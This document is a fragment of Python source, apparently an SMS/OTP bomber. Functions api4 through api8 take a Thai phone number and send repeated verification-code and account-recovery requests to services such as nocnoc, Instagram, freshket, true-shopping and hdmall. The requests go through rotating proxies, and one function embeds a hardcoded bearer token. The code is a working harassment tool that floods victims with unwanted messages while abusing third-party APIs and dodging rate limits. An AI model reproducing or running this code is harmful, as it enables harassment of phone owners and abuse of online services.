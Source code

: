 def api4(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://nocnoc.com/authentication-service/user/OTP/verify-phone/%2B66{phone[1:]}?lang=th&userType=BUYER&locale=th&orgIdfier=scg&phone=%2B66{phone[1:]}&phoneCountryCode=%2B66&b-uid=1.0.760",headers={"authorization": "Bearer eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..MSrqMX5S5Ui8NbGvEih2uw.NCJuqSPHzIwZ0Jy4Snq25pKUa887meHakzTe3YTCUnVsMwY8cQMnJ-nOr6Lbb5irc2gr8VfD0G2ZYocg22oVH36DdBnfoJirezzLuf9Uc2DiaQHLJ8OJY3UHo8fLUMB7BYe2w0Q5fDdMF1N0u8_aGA.ZNn49ubbJXSlycijnTncbQ"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def ig_token():
	d=get("https://www.instagram.com/",headers=headers).headers['set-cookie']
	d=search("csrftoken=(.*);",d).group(1).split(";")
	return d[0],d[10].replace(" Secure, ig_did=","")
	
def api5(phone):
	token,_=ig_token()
	d=post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username=66{phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()
	
	
def api6(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.freshket.co/baseApi/Users/RequestOtp",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Content-Type": "application/json;charset=UTF-8"},json={"isDev":"false","language":"th","phone":f"+66{phone[1:]}"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
	
def api7(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.true-shopping.com/customer/api/request-activate/mobile_no", data={"username": phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api8(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://hdmall.co.th/phone_verifications?express_sign_in=1&mobile={phone}",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	